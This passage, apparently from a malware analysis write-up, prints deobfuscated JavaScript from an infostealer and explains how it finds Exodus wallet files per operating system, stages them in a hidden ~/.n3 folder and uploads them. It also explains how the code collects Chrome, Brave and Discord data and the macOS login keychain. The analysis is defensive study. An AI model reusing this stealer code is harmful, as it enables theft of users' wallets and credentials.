 ```javascript
        try {
          fs_promises.copyFile(_0x1ae0e6, getAbsolutePath('~/') + "/.n3/tp" + _0x20978e);
          const _0xd1c9cb = {
            filename: "81_" + _0x1e308f
          };
          _0x16466a.push({
            'value': fs.createReadStream(getAbsolutePath('~/') + "/.n3/tp" + _0x20978e),
            'options': _0xd1c9cb
          });
          _0x20978e += 1;
        } catch (_0x418397) {}
      });
    }
    Upload(_0x16466a, _0x126cbf);
    return _0x16466a;
  };
```
This is how we can understand what this code does:
1. Detect OS: It detects the operating system, with different behaviors based on the platform:
    + Windows: targets ```~/AppData/Roaming/Exodus/exodus.wallet```
    + Linux: targets ```~/.config/Exodus/exodus.wallet```
    + macOS: targest ```~/Library/Application Support/exodus.wallet```
2. Checks if the target path exists using ```testPath()```.
3. Creates a hidden staging directory: ```~/.n3``` if not existed.
4. Copies Exodus wallet files to the hidden directory and upload it to server.

<hr style="border: none; border-top: 1px solid #ccc;">

Similarly, the upData function also handles things based on the detected OS:
```javascript
  const UpAppData = async (_0x413003, _0x10c39d, _0x3fc07c) => {
    try {
      let _0x5e1ad4 = '';
      _0x5e1ad4 = 'd' == platform[0] ? getAbsolutePath('~/') + "/Library/Application Support/" + _0x413003[1] : 'l' == platform[0] ? getAbsolutePath('~/') + "/.config/" + _0x413003[2] : getAbsolutePath('~/') + "/AppData/" + _0x413003[0] + "/User Data";
      await uploadFiles(_0x5e1ad4, _0x10c39d + '_', 0 == _0x10c39d, _0x3fc07c);
    } catch (_0x3fa9ad) {}
  };
```
This codes means it is customizable to steal from Chrome, Discord, Brave, etc. depending on what the attacker provides in ```_0x413003```.

<hr style="border: none; border-top: 1px solid #ccc;">

And luckily for us, the authors even dedicated an entire function just to stealing the Keychain in macOS 😅.
```javascript
const UpKeychain = async _0x35b03f => {
    let _0x51cdd4 = [];
    let _0x3c6b6f = homeDir + "/Library/Keychains/login.keychain";
    if (fs.existsSync(_0x3c6b6f)) {
      try {
        const _0x40e1ee = {
          filename: 'logkc-db'
        };
        _0x51cdd4.push({
          'value': fs.createReadStream(_0x3c6b6f),
          'options': _0x40e1ee
        });
      } catch (_0x5f4ddc) {}
    } else {
      _0x3c6b6f += "-db";
      if (fs.existsSync(_0x3c6b6f)) {
        try {
```